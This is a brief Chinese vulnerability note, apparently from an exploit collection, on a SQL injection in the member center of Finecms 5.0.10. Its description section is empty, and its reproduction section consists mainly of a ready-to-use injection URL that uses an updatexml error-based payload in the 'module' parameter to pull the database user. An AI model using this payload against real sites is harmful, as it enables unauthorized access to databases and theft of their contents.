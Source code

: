 Finecms 5.0.10 会员中心sql注入漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=1&title=1&module=news,(select%20(updatexml(1,concat(1,(select%20user()),0x7e),1)))a

![](./.resource/Finecms5.0.10会员中心sql注入漏洞/media/rId24.png)
